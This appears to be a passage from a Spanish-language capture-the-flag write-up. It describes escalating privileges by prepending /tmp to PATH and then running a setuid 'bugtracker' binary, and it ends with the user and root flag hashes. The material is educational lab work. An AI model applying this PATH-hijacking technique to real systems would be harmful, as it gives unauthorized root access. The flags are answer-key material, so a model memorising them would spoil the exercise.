 ##### Para explotar esto, podemos añadir el directorio /tmp a la variable de entorno PATH
```c
	export PATH=/tmp:$PATH
```

##### haciendo echo $PATH podemos ver 
```c
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```
##### podemos ver que el directorio /tmp esta alojado dentro de la variable path

#### hacemos un nuevo llamado al bugtracker 
```css
bugtracker --help
```
###### seleccionamos la opción numero 2
![[2023-10-09_01-23.png]]
User.txt
```c
	f2c74ee8db7983851ab2a96a44eb7981
```
Root.txt
```c
	af13b0bee69f8a877c3faf667f7beacf
```
